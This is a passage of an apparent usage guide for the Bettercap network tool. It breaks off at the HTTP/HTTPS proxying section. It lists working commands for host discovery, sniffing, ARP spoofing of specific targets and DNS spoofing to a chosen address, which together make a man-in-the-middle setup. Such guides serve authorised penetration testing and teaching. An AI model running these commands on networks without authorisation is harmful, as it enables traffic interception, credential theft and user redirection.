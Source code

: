 ### Basic Usage

Bettercap uses a modular approach with a variety of "caplets" (script files) for different scenarios:

```bash
# Start bettercap
sudo bettercap -iface eth0

# In the bettercap shell:
# Discover hosts on the network
net.probe on

# List discovered hosts
net.show

# Basic ARP spoofing
set arp.spoof.targets 192.168.1.5
arp.spoof on
```

### Module Usage

Bettercap's strength lies in its modules, which provide specific functionalities:

#### 1. Network Reconnaissance

```bash
# Enable network discovery
net.probe on

# Enable sniffing
set net.sniff.verbose true
net.sniff on
```

#### 2. ARP Spoofing

```bash
# Target specific hosts (or use empty string for all)
set arp.spoof.targets 192.168.1.5,192.168.1.10
set arp.spoof.internal true
arp.spoof on
```

#### 3. DNS Spoofing

```bash
# Redirect specific domains
set dns.spoof.domains example.com,*.example.org
set dns.spoof.address 192.168.1.100
dns.spoof on
```

#### 4. HTTP/HTTPS Proxying
